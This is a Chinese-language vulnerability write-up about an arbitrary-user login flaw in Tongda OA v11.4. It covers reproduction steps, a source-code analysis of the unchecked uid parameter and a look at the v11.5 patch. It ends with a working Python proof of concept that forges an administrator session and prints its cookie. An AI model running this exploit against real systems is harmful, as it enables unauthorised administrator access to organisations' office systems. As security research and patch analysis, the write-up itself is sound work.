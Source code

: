 # 通达 OA Office Anywhere v11.4任意用户登录漏洞复现与原理详细解析（第二处）


## 漏洞概述

通达OA系统采用领先的B/S(浏览器/服务器)操作方式，使得网络办公不受地域限制。 Office Anywhere采用基于WEB的企业计算，主HTTP服务器采用了世界上最先进的 Apache服务器，性能稳定可靠。数据存取集中控制，避免了数据泄漏的可能。提供数据备份工具，保护系统数据安全。多级的权限控制，完善的密码验证与登录验证机制更加强了系统安全性。

通达OA官方更新了V11版本安全补丁，修复了任意用户伪造登录漏洞，该漏洞的操作难度低，危害程度大。未经授权的攻击者通过构造请求包实现用户登录，又由于UID是主键且步进为1递增，从而导致可以指定UID实现任意用户登录（admin的缺省UID为1）。
## 漏洞环境

官网：https://www.tongda2000.com/

下载：https://cdndown.tongda2000.com/oa/2019/TDOA11.4.exe

版本：通达OA V11.X<V11.5

测试系统： 

Windows 7 专业版 64位操作系统 

macOS11.0.1 （攻击机）

python3.7.5

## 漏洞验证
第一步：访问ispirit/login_code.php，在返回值中保存codeuid：{58AA7BF5-725C-F8EB-3324-BE17C4E8F6AA}

第二步：访问general/login_code_scan.php
修改如下：

```
GET请求改为POST请求
添加Content-Type
添加Content-Length
添加请求体codeuid={xxx}&source=pc&uid=1&type=confirm&username=admin
```



![](20201219101708128_5207.png)

这个请求一般会返回status 1

  ![](20201219102012280_28610.png)

  第三步：访问/ispirit/login_code_check.php?codeuid={xxx}

  ![](20201219102123533_12814.png)

  如果请求正常，会返回如下图所示数据 
  ![](20201219102401024_13617.png)

第四步：访问/general/index.php，顺利登录后台，权限是系统管理员，实现任意用户登录
  ![](20201219102509925_13991.png)



## 漏洞原理

漏洞地址存在于general/login_code_scan.php，进入解密后的源码处查看代码，可以看到通过POST请求接收5个参数，然后存到数组里，uid可控，没有对uid进行任何校验，这就产生了漏洞
![](20201219104350520_5847.png)

这里会检测codeuid，如果codeuid存在并且正确会返回1

![](20201219104600278_30979.png)

再后面就没有任何检测了，直接在返回包里返回status

![](20201219105133157_30970.png)

漏洞点要发送5个参数，分别是codeuid，source，uid，type，username

* codeuid必须是实时获取到的，否则无法通过校验

* source只需填入pc、web或者mac其中之一（源码中做了判断,必须是这三个之一才会正常返回status）

* uid为1就是管理员权限，可以通过本地数据库查到，前面几篇博客都说明了，就不多说了。

* 最后并没有对type和username做检测
  

按理发请求的时候这两个任意值都是可以的，但是经过测试username可以是任意值，但是type必须是confirm，否则无法任意用户登录，那么这个type应该是有校验的，只不过不是在这个文件中，所以我们要找到这个校验处。
  校验很可能存在的位置就是下一个步骤，也就是访问/ispirit/login_code_check.php?codeuid={xxx}，找到源码进行查看。
可以看到15行对type进行判断

![](20201219170612652_23176.png)

  

如果type不是confirm就不会执行session操作，换句话就无法保存状态，伪造的管理员cookie也就无法生效了，后续直接访问后台就不会成功，所以type必须是confirm。



![](20201219170917295_8923.png)



## 补丁分析

找到v11.5版本的general/login_code_scan.php文件，可以看到不再直接从UID参数中取UID了，而是通过P参数获取sessionid，再通过sessionid获取数据库中的UID，再通过UID等信息生成TOKEN，最后再通过TOKEN等信息生成缓存，这样就解决了UID可控的问题了

![image-20201219215830050](image-20201219215830050.png)

![image-20201219221115596](D:\tutucoo\content\posts\通达 OA Office Anywhere v11.4任意用户登录漏洞复现与原理详细解析（第二处）\image-20201219221115596.png)

## 总结
该漏洞点存在于general/login_code_scan.php，需要传递5个参数，分别是codeuid、source、uid、type、username、其中codeuid需要发送ispirit/login_code.php请求获取，其他几个参数通过分析源码我们也都知道了，唯独还有/ispirit/login_code_check.php?codeuid={xxx}请求，不知道是从何而来，可能是通过黑盒测试，二维码扫描过程中抓到的吧，也就是个猜测，自己通过APP扫码登录出了点问题，就不再细说了。

## 附：POC
```python3
import json
import requests

def getSession(url):
    vulUrl = url+'/ispirit/login_code.php'
    res = requests.get(vulUrl)
    codeuid = json.loads(res.text)['codeuid']
    print(codeuid)
    confirmUrl = url + '/general/login_code_scan.php'
    data = {
        'codeuid':codeuid,
        'uid': int(1),
        'source': 'pc',
        'type': 'confirm',
        'username': 'admin',
    }

    res = requests.post(confirmUrl,data=data)
    status = json.loads(res.text)['status']
    print(status)
    if status == str(1):
        seesionUrl = url + '/ispirit/login_code_check.php?codeuid='+codeuid
        res = requests.get(seesionUrl)
        print('[*]cookie:'+res.headers['Set-Cookie'])
    else:
        print('[-]failed')


if __name__ == "__main__":
    getSession('http://xxxx/')
```


